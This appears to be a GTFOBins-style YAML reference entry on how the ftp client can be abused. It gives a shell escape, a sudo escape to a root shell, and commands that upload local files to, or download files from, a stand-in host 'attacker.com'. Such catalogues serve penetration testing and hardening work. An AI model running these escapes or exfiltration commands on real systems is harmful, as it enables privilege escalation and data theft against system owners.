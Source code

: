 ```yaml
---
name: ftp
functions:
  shell:
    - code: |
        ftp
        !/bin/sh
  file-upload:
    - description: Send local file to a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        put file_to_send
  file-download:
    - description: Fetch a remote file from a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        get file_to_get
  sudo:
    - code: |
        sudo ftp
        !/bin/sh
---
```


